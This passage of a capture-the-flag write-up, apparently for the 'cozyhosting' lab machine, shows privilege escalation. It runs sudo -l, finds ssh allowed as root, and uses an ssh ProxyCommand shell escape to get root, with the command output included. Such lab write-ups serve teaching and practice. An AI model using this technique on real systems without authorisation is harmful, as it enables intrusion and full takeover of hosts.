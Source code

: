 And we get a SSH session on target host

### Privilege Escalation

We can quickly enumerate this host under this user to find :

```shell
sudo -l
```

```text
User josh may run the following commands on localhost:
(root) /usr/bin/ssh *
```

[https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)

And we can find an exploit to get a shell :

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

And we are root :

```shell
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
